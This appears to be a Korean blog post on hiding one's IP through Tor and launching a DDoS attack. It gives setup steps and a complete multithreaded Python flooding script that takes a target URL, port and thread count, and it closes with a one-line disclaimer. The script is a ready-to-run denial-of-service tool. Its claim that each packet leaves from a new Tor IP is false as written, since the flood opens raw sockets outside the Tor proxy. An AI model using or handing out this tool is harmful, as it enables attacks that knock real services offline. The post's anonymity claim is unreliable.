 ```yaml
---
layout: single
title:  "tor 활용해서 ip 숨기고 디도스 날리기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```

# IP를 숨기고 디도스 날려보자 
앞선 방법들로 내가 어떤 기기에서 날리는지 모르게 하더라도, IP가 들켜버리니 말장 도루묵이다.  
따라서, tor 라는 내 IP를 숨겨주는 브라우저를 활용해 디도슬르 날리는 것으로 내 IP를 숨길 수 있다.  
이는 토어 네트워크를 이용하여 파이썬 코드의 모든 요청을 라우팅하는 것으로 할 수 있다.   
이를 위해 `stem` 라이브러리를 사용하여 파이썬 코드에서 토어 네트워크를 제어하고, `requests` 라이브러리를 사용하여 HTTP 요청을 보낼 수 있다.  


1. **토어 설치**:
   - [https://www.torproject.org/download](https://www.torproject.org/download/)
   위에 저거 다운 받자

2. **Tor 서비스 시작**:
   - 토어 브라우저한번 실행해 보자. 속도가 다른 브라우져보다 느릴텐데, 이는 많은 우회 과정을 거치기 때문이다.  

3. **stem 및 requests 라이브러리 설치**:
   - 파이썬 코드에서 Tor를 제어하기 위해 `stem` 라이브러리와 HTTP 요청을 보내기 위해 `requests` 라이브러리를 설치하자.  
   ```pip install stem requests```  

4. **Tor를 통한 HTTP 요청 설정**:
- 다음은 토어 네트워크를 통해 IP를 숨기고 HTTP 요청을 보내는 예제 코드이다:  

```python
import requests
from stem import Signal
from stem.control import Controller

# Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
def renew_tor_ip():
   with Controller.from_port(port=9051) as controller:
       controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
       controller.signal(Signal.NEWNYM)

# Tor를 사용하여 HTTP 요청을 보내는 함수
def get(url):
    session = requests.Session()
    session.proxies = {
        'http': 'socks5h://127.0.0.1:9050',
        'https': 'socks5h://127.0.0.1:9050'
    }
    response = session.get(url)
    return response

# Tor IP 갱신
renew_tor_ip()

# 예제 HTTP 요청
url = 'http://httpbin.org/ip'
response = get(url)
print(response.text)
```

### 설명
1. **Tor 서비스 시작**:
   - Tor 브라우저를 실행하거나, Tor 서비스만 실행합니다. 서비스만 실행하려면 `tor` 명령을 사용할 수 있습니다.
2. **`stem` 라이브러리를 사용하여 Tor 회로 갱신**:
   - `stem` 라이브러리를 사용하여 새로운 Tor 회로를 요청하고 IP를 갱신합니다.
   - Tor의 제어 포트에 연결하여 새로운 회로를 생성하도록 신호를 보냅니다.
3. **`requests` 라이브러리를 사용하여 HTTP 요청**:
   - `requests` 라이브러리의 프록시 설정을 통해 모든 HTTP 요청을 Tor 네트워크를 통해 라우팅합니다.
   - `socks5h://127.0.0.1:9050`는 로컬에서 실행 중인 Tor 프록시 서버의 주소입니다.

위 코드로 Tor 네트워크를 통해 HTTP 요청을 보내고 응답을 받을 수 있다.  
필요한 경우 `renew_tor_ip` 함수를 호출하여 IP를 갱신할 수 도 있다.  
Tor 제어 포트에 대한 접근 권한이 필요하며, 이를 위해 `torrc` 파일에서 `ControlPort`와 `HashedControlPassword` 설정을 확인해야 한다.  

추가적으로, Tor 설정 파일 (`torrc`)에서 제어 포트를 설정하고 비밀번호를 설정해야 한다:  
```bash
ControlPort 9051
HashedControlPassword your_hashed_password
```

이렇게 하면 파이썬 코드를 Tor 네트워크를 통해 실행하고 IP를 숨길 수 있다.  
위와 같은 방식을 디도스에 적용해 보자.  
```python
import re
import os
import sys
import time
import string
import signal
import http.client
import urllib.parse
import requests
from stem import Signal
from stem.control import Controller
from random import choice, randint
from socket import *
from threading import Thread
from argparse import ArgumentParser, RawTextHelpFormatter

version = '3.1'

# 사용자 입력 처리
def get_args():
    parser = ArgumentParser(formatter_class=RawTextHelpFormatter)
    parser.add_argument("-u", "--url", required=True, help="공격할 URL을 입력하십시오.")
    parser.add_argument("-p", "--port", default=80, type=int, help="공격할 포트 번호 (기본값: 80)")
    parser.add_argument("-t", "--threads", default=100, type=int, help="스레드 수 (기본값: 100)")
    parser.add_argument("-s", "--sleep", default=0, type=float, help="스레드 간 대기 시간 (초, 기본값: 0)")
    return parser.parse_args()

# Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
def renew_tor_ip():
    with Controller.from_port(port=9051) as controller:
        controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
        controller.signal(Signal.NEWNYM)

# Tor를 사용하여 HTTP 요청을 보내는 함수
def get(url):
    session = requests.Session()
    session.proxies = {
        'http': 'socks5h://127.0.0.1:9050',
        'https': 'socks5h://127.0.0.1:9050'
    }
    response = session.get(url)
    return response

# 패킷 전송 방식 고도화 클래스
class AdvancedPyslow:
    def __init__(self, tgt, port, threads, sleep):
        self.tgt = tgt
        self.port = port
        self.threads = threads
        self.sleep = sleep
        self.method = ['GET', 'POST', 'HEAD', 'PUT', 'DELETE']  # 다양한 HTTP 메소드
        self.user_agents = self.load_user_agents()  # User-Agent 목록 불러오기

    def load_user_agents(self):
        try:
            with open("./ua.txt", "r") as fp:
                return re.findall(r"(.+)\n", fp.read())
        except FileNotFoundError:
            print('[-] \'ua.txt\' 파일을 찾을 수 없습니다.')
            return []

    # 패킷 생성 함수
    def create_packet(self):
        method = choice(self.method)
        path = '/' + str(randint(1, 999999999))
        user_agent = choice(self.user_agents)
        return f"{method} {path} HTTP/1.1\r\nHost: {self.tgt}\r\nUser-Agent: {user_agent}\r\n\r\n"

    # 패킷 전송 함수
    def send_packet(self):
        try:
            # Tor IP 갱신
            renew_tor_ip()
            # 새로운 Tor IP를 통해 요청 전송
            with socket(AF_INET, SOCK_STREAM) as sock:
                sock.connect((self.tgt, self.port))
                packet = self.create_packet()
                sock.sendall(packet.encode())
                print(f"[+] 패킷 전송: {packet.strip()}")
        except Exception as e:
            print(f"[-] 패킷 전송 실패: {e}")

    # 스레드 실행 함수
    def run(self):
        threads = []
        for _ in range(self.threads):
            t = Thread(target=self.send_packet)
            t.start()
            threads.append(t)
            time.sleep(self.sleep)  # 스레드 간 대기 시간

        for t in threads:
            t.join()

if __name__ == "__main__":
    signal.signal(signal.SIGINT, signal.SIG_DFL)  # Ctrl+C 시 기본 시그널 처리
    args = get_args()
    target_ip = gethostbyname(args.url)  # 도메인에서 IP 주소 얻기
    print(f"[+] 공격 대상: {args.url} ({target_ip})")
    
    # 패킷 전송 고도화 클래스 인스턴스 생성 및 실행
    attack = AdvancedPyslow(target_ip, args.port, args.threads, args.sleep)
    attack.run()

```

위와 같은 방법으로, 패킷을 보낼 때 마다 다른 IP에서 날리는 것으로 만들 수 있다.  
이건 개념 이해 목적이므로, 절대 악의성을 가지고 남을 공격하는데 사용하지 말자.  